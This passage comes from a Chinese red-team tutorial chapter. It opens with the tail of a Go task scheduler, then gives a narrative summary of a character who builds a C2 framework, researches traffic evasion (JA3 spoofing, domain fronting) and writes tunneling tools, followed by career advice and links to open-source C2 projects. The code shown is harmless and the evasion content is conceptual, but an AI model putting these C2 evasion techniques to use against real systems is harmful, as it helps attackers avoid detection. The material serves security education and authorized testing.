func (s *Scheduler) Stop() {
    close(s.taskQueue)
    s.wg.Wait()
}

func main() {
    scheduler := NewScheduler(5, 100)
    scheduler.Start()

    // 提交任务
    for i := 0; i < 20; i++ {
        priority := TaskPriority(i % 3)
        task := Task{
            ID:       i,
            Priority: priority,
            Command:  fmt.Sprintf("cmd_%d", i),
        }
        scheduler.Submit(task)
    }

    time.Sleep(2 * time.Second)
    scheduler.Stop()
    fmt.Println("调度器已停止")
}
```

</details>

---

## 📌 本章小结

::: tip 本章回顾
这一章我们讲了阿杰从"脚本小子"蜕变为"工具开发大神"的完整历程，从加入工具研发组，到开发C2框架、研究流量隐蔽、开发内网穿透工具、护网复仇、开源5000+ Star、受邀演讲、创办安全公司。

这是一个关于"成长"的故事，也是一个关于"创造"的故事。
:::

### 核心知识点回顾

```
📊 本章核心知识点：

【1. 工具研发组的工程化实践】
- Git Flow分支管理
- Code Review制度
- CI/CD流水线
- 测试驱动开发
- 文档即代码
- 从"个人英雄主义"到"团队协作"

【2. C2框架的架构设计】
- 七大核心模块：Listener、Agent Manager、Scheduler、Implant、Protocol、Plugin System、Client
- 心跳机制：基础间隔 + 随机抖动 + 指数退避
- 任务调度：生产者-消费者模型 + 优先级队列
- 插件系统：Go原生插件 + Lua脚本 + BOF
- 多协议支持：HTTP/HTTPS、DNS、TCP、ICMP、WebSocket

【3. 流量隐蔽四层防御模型】
- 传输层：HTTPS + uTLS伪装JA3指纹
- 协议层：自定义协议，避免特征匹配
- 内容层：流量混淆 + 域前置 + DoH
- 行为层：行为模拟，模拟正常用户

【4. 内网穿透工具设计】
- 多隧道类型：TCP、UDP、SOCKS5、HTTP、DNS、ICMP
- 多级跳板 + 代理链
- 流量加密 + 混淆
- 断线重连 + 配置加密
- 红队专用工具 vs 通用工具的设计哲学差异

【5. 开源项目运营】
- 开源版（社区版）+ 企业版（付费）双轨制
- 文档驱动 + 示例驱动
- 社区运营：Issue管理、PR Review、版本发布
- 5000+ Star的增长曲线：种子用户 → 圈内传播 → 跨圈传播

【6. 安全创业】
- 技术、产品、销售、管理、财务的综合能力
- 聚焦细分领域，做到第一
- 现金流是命脉
- 团队比技术更重要
```

### 阿杰的成长启示

```
🎯 阿杰的成长启示：

【启示1：会用工具 ≠ 会造工具】
- 会用工具是"使用者"，会造工具是"创造者"
- 使用者的天花板是工具的设计者
- 创造者的天花板是自己的想象力
- 想突破瓶颈，必须从"使用者"变成"创造者"

【启示2：挫折是成长的催化剂】
- 第一次护网翻车 → 觉醒
- C2流量被检测 → 深化
- 创业踩坑 → 成熟
- 每一次挫折，都是一次升级的机会

【启示3：开源是最好的简历】
- 开源项目比任何简历都有说服力
- 1000 Star的扫描器 → 进入工具研发组
- 5000 Star的C2框架 → 受邀演讲 + 创业资本
- 开源既是技术输出，也是影响力建设

【启示4：工程化能力 > 编码能力】
- 会写代码不等于会做产品
- C2框架不是"写出来"的，是"工程化"出来的
- 架构设计、代码质量、测试、文档、协作... 这些才是核心能力
- 单兵作战的天花板很低，团队协作才能做大

【启示5：技术人要补的课不止技术】
- 阿杰创业后才发现：销售、管理、财务... 哪一块短板都会要命
- 技术是基础，但不是全部
- 想创业的技术人，要先补"非技术"的课
```

### 给初学者的建议

> 阿杰想对刚入行的你说：
>
> **第一，不要只做工具的使用者，要做工具的创造者。**
> 会用sqlmap很酷，但会写sqlmap更酷。
> 会用Cobalt Strike很厉害，但会写C2框架才是真正的大神。
> 从今天开始，挑一个你常用的工具，试着用代码重新实现它的核心功能。
> 哪怕只是一个最简陋的版本，你也会受益匪浅。
>
> **第二，从"小工具"开始，逐步挑战"大框架"。**
> 不要一上来就想写一个C2框架，先写一个端口扫描器。
> 不要一上来就想写一个内网穿透工具，先写一个简单的端口转发。
> 成长是阶梯式的，每一步都要走稳。
>
> **第三，学会读源码。**
> Nmap、sqlmap、nuclei、frp... 这些开源工具的源码是最好的老师。
> 读源码不是"看小说"，是"逆向工程"——搞懂它为什么这么设计。
> 读多了，你自然会写出"像样"的代码。
>
> **第四，开源你的项目。**
> 不要怕"代码太烂被人笑话"，每个大佬都是从烂代码开始的。
> 开源会逼你写文档、写测试、规范代码风格。
> 开源会给你反馈、给你动力、给你影响力。
>
> **第五，技术人要有"产品思维"。**
> 工具不是写给自己用的，是写给别人用的。
> 要考虑：用户是谁？痛点是什么？怎么用最简单？
> 一个"技术牛但难用"的工具，不如一个"技术一般但好用"的工具。
>
> **最后，记住：**
> 脚本小子的天花板很低，工具开发大神的天花板是自己。
> 从今天开始，从一个最简单的工具开始，踏上你的"造工具"之路。

---

## 🔗 相关链接

### 章节导航

- ⬅️ **上一章**：[第127章 脚本小子到工具开发大神（上）](./day127-story-脚本小子到工具开发大神上.md)
- ➡️ **下一章**：[第129章 内网渗透工具开发实战](./day129-内网渗透工具开发实战.md)
- 📚 **返回目录**：[红队篇目录](./README.md)

### 延伸阅读

::: tip 关联章节
本章涉及的技术点，在后续章节会有更深入的讲解：

- **C2框架开发详解**：详见第135章《C2框架从零开发》
- **流量隐蔽技术全解**：详见第140章《红队流量隐蔽技术》
- **内网穿透工具开发**：详见第142章《内网穿透工具开发实战》
- **Go语言安全开发**：详见第150章《Go语言安全工具开发》
- **开源项目运营**：详见第160章《安全开源项目运营指南》
- **安全创业指南**：详见第165章《安全创业那些事》
:::

### 推荐资源

```
📚 推荐学习资源：

【Go语言学习】
- Go官方文档：https://go.dev/doc/
- Go by Example：https://gobyexample.com/
- 《Go程序设计语言》（The Go Programming Language）

【C2框架相关】
- Cobalt Strike官方文档
- Mythic框架（开源C2）：https://github.com/its-a-feature/Mythic
- Sliver（开源C2）：https://github.com/BishopFox/sliver

【流量隐蔽相关】
- uTLS项目：https://github.com/refraction-networking/utls
- Domain Fronting研究论文
- JA3指纹识别原理

【内网穿透相关】
- frp（开源内网穿透）：https://github.com/fatedier/frp
- nps（开源内网穿透）：https://github.com/ehang-io/nps
- SOCKS5协议规范（RFC 1928）

【开源安全工具】
- Awesome Security：https://github.com/sbilly/awesome-security
- Awesome Red Teaming：https://github.com/yeyintminthuhtut/Awesome-Red-Teaming
```

---

## 📝 写在最后

::: tip 作者的话
这个故事到这里就结束了，但阿杰的故事还在继续，你的故事也才刚刚开始。

阿杰从一个"工具党"成长为"工具开发大神"，用了三年。
这三年里，他经历了：
- 第一次护网的耻辱
- 学Python和Go的痛苦
- 第一个开源项目的喜悦
- 加入工具研发组的兴奋
- C2框架开发的挑战
- 流量被检测的挫折
- 流量隐蔽的研究
- 护网复仇的痛快
- 开源5000 Star的成就
- 受邀演讲的荣耀
- 创业的艰辛

每一步都不容易，但每一步都算数。

如果你也想过"我会不会有一天也能造工具"，
答案是：会，但前提是你现在就开始。

不是明天，不是下周，是现在。

打开你的编辑器，写下一行代码：
`package main`

这就是你"造工具"之路的第一步。

—— 阿杰，写于幻影安全成立一周年
:::

---

> **免责声明**：本章所有人物、公司、事件均已脱敏处理，**基于真实事件改编**。文中涉及的技术细节仅供安全研究和授权测试使用，请勿用于非法用途。未经授权的渗透测试行为属于违法犯罪，作者与平台不承担任何法律责任。

---

**本章完**

```
📖 本章统计：
- 总字数：约 30000 字
- 章节数：13 个主要章节 + 5 个案例 + 课后习题 + 小结
- 代码示例：30+ 个代码块（Go语言为主）
- Mermaid图表：7 个
- 阅读时间：约 180 分钟
```

---